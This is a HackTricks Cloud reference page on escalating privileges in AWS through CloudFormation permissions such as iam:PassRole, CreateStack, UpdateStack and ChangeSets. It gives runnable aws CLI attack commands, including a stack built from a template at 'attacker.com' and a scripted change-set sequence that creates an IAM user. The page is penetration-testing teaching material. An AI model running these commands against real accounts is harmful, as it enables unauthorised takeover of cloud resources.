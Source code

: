 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

For more information about cloudformation check:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

An attacker with these permissions **can escalate privileges** by crafting a **CloudFormation stack** with a custom template, hosted on their server, to **execute actions under the permissions of a specified role:**

```bash
aws cloudformation create-stack --stack-name <stack-name> \
    --template-url http://attacker.com/attackers.template \
    --role-arn <arn-role>
```

In the following page you have an **exploitation example** with the additional permission **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potential Impact:** Privesc to the cloudformation service role specified.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In this case you can a**buse an existing cloudformation stack** to update it and escalate privileges as in the previous scenario:

```bash
aws cloudformation update-stack \
    --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1 
```

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `UpdateStack` permission** over a stack and perform the attack.

**Potential Impact:** Privesc to the cloudformation service role specified.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

If you have this permission but **no `iam:PassRole`** you can still **update the stacks** used and abuse the **IAM Roles they have already attached**. Check the previous section for exploit example (just don't indicate any role in the update).

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `UpdateStack` permission** over a stack and perform the attack.

**Potential Impact:** Privesc to the cloudformation service role already attached.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

An attacker with permissions to **pass a role and create & execute a ChangeSet** can **create/update a new cloudformation stack abuse the cloudformation service roles** just like with the CreateStack or UpdateStack.

The following exploit is a **variation of the**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) using the **ChangeSet permissions** to create a stack.

```bash
aws cloudformation create-change-set \
    --stack-name privesc \
    --change-set-name privesc \
    --change-set-type CREATE \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::947247140022:role/CloudFormationAdmin \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
    --change-set-name privesc \
    --stack-name privesc \
    --region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
    --stack-name privesc \
    --region eu-west-1
```

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `ChangeSet` permissions** over a stack and perform the attack.

**Potential Impact:** Privesc to cloudformation service roles.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

This is like the previous method without passing **IAM roles**, so you can just **abuse already attached ones**, just modify the parameter:

```
--change-set-type UPDATE
```

**Potential Impact:** Privesc to the cloudformation service role already attached.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

An attacker could abuse these permissions to create/update StackSets to abuse arbitrary cloudformation roles.

**Potential Impact:** Privesc to cloudformation service roles.

### `cloudformation:UpdateStackSet`

An attacker could abuse this permission without the passRole permission to update StackSets to abuse the attached cloudformation roles.

**Potential Impact:** Privesc to the attached cloudformation roles.

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
